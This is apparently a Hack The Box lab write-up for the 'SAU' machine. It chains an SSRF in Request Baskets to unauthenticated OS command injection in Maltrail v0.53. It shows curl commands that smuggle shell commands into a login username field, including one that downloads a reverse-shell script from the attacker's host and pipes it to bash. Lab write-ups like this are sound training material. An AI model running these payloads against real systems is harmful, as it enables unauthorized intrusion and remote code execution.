 ```yaml
---
title: SAU Hack The Box 
date: 2023-06-25 22:50:30 +/-TTTT
categories: [Hack The Box, SAU]
tags: [SAU HTB] 

image:
  path: /assets/img/htb/sau/logo.png
  # alt: PC HTB
---
```



## Work Flow
![]( /assets/img/htb/sau/workflow.png)

## Enumeration
- Scan with nmap => 2 ports open: 22, 55555 and 1 port filtering 80
![]( /assets/img/htb/sau/nmap.png)
- Go to browser and connect to the target with port 55555 => search exploit *request baskets*

## Exploit
```shell
curl http://10.10.11.224:55555/api/baskets/tes --data '{ 
  "forward_url": "http://127.0.0.1:80",         
  "proxy_response": true,
  "insecure_tls": false,
  "expand_path": true,
  "capacity": 250
}'  -X POST

```
=> http://10.129.16.203:55555/tes  ==> Maltrail v0.53 (vulnerable to unauthenticated OS command injection)
- Identifying vulnerability

```shell
curl http://10.10.11.224:55555/api/baskets/test1 --data '{
  "url": "http://127.0.0.1:8338/login",          
  "username": ";`id > /tmp/bbq`",
  "proxy_response": true,
  "insecure_tls": false,
  "expand_path": true,
  "capacity": 250
}'  -X POST

```
- Download and run reshell file

```shell
curl 'http://10.10.11.224:55555/tes/login' --data 'username=;`curl 10.10.14.29:8899/reshell.sh|bash`'

```
![]( /assets/img/htb/sau/token.png)
 Get reshell 
![]( /assets/img/htb/sau/reshell.png)

## Privilege escalation
![]( /assets/img/htb/sau/sudo.png)
![]( /assets/img/htb/sau/service_root.png)
![]( /assets/img/htb/sau/get_root.png)